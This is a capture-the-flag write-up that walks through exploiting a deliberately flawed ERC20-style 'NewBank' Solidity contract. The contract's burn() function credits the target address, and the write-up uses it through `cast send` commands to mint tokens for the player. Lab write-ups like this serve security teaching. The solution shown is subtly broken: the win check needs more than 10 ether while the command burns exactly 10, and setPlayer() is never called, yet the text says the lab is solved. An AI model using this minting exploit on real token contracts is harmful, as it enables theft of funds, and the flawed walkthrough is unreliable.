 This Heist require you to get at least 10 Ether from the NewBank that they create in the mist of Inju Bank fall. &nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.26;

import "./NewBank.sol";

contract Setup{
    NewBank public NB;
    address public player;

    constructor(uint256 _initialSupply) {
        NB = new NewBank(_initialSupply);
    }

    function setPlayer() public{
        require(msg.sender == tx.origin, "Only Human are allowed to be Player");
        player = msg.sender;
    }

    function isSolved() public view returns(bool){
        return NB.balanceOf(player) > 10 ether;
    }
}
```
&nbsp;  
In the *Setup Contract*, we can know that the *isSolved()* function require us to first *setPlayer()* and it can only be an EOA, meaning we can't use any Exploit Contract here. Now let's see other files that also given to us, *BetterERC20.sol* and *NewBank.sol*, we are going to see the *BetterERC20.sol* first &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

interface IBetterERC20 {
    function transfer(address _to, uint256 _value) external returns (bool);

    function transferFrom(
        address _from,
        address _to,
        uint256 _value
    ) external returns (bool);

    function approve(address _spender, uint256 _value) external returns (bool);

    function mint(uint256 _value) external;

    function burn(address _who, uint256 _value) external;

    function owner() external view returns (address);

    function balanceOf(address _who) external view returns (uint256);

    function allowance(
        address _owner,
        address _spender
    ) external view returns (uint256);

    function name() external view returns (string memory);

    function symbol() external view returns (string memory);

    function decimals() external view returns (uint8);
}
```
&nbsp;  
Turns out it's not a contract, but an Interface and to be prcise, it's ERC20 Interface. Knowing that we are working with an ERC Standard, makes the scope of search much easier, what we need to be focused on here is a misimplementation or override of the ERC20 original function. For this, let's see the *NewBank Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {IBetterERC20} from "./BetterERC20.sol";

contract NewBank is IBetterERC20{
    address public override owner;
    mapping(address => uint256) public override balanceOf;
    mapping(address => mapping(address => uint256)) public override allowance;

    string public override name = "NewBank Token";
    string public override symbol = "NBT";
    uint8 public override decimals = 18;

    constructor(uint256 _initialSupply) {
        owner = msg.sender;
        balanceOf[msg.sender] = _initialSupply;
    }

    function transfer(address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[msg.sender] >= _value, "Insufficient balance");
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
        return true;
    }

    function transferFrom(address _from, address _to, uint256 _value) external override returns (bool) {
        require(balanceOf[_from] >= _value, "Insufficient balance");
        require(allowance[_from][msg.sender] >= _value, "Allowance exceeded");
        balanceOf[_from] -= _value;
        balanceOf[_to] += _value;
        allowance[_from][msg.sender] -= _value;
        return true;
    }

    function approve(address _spender, uint256 _value) external override returns (bool) {
        allowance[msg.sender][_spender] = _value;
        return true;
    }

    function mint(uint256 _value) external override {
        require(msg.sender == owner, "Only Owner are allowed to mint!");
        balanceOf[msg.sender] += _value;
    }

    function burn(address _who, uint256 _value) external override {
        require(balanceOf[_who] <= _value, "Insufficient balance to burn");
        balanceOf[_who] += _value;
    }
    
}
```
&nbsp;  
After viewing all the function here, it seems almost everything is okay except the *burn()* function. *burn()* usually remove a token from the supply and deduct the balance, but this time it's adding it instead of deducting it, so this is the flaw. &nbsp;  
&nbsp;  
We already found the way to get ourselves some balance, by calling the *burn()* with the value of address pointing to our wallet with the value of 10 Ether, so let's just do that! &nbsp;  
&nbsp;  
```bash
// Getting the NewBank Address
cast call -r $RPC_URL $SETUP_ADDR "NB()"

// Get Ourselves 10 Ether
cast send -r $RPC_URL --private-key $PK $NB_ADDR "burn(address,uint256)" $WALLET_ADDR 10000000000000000000
```
&nbsp;  
By running the commands above in your terminal, you should've solve the lab!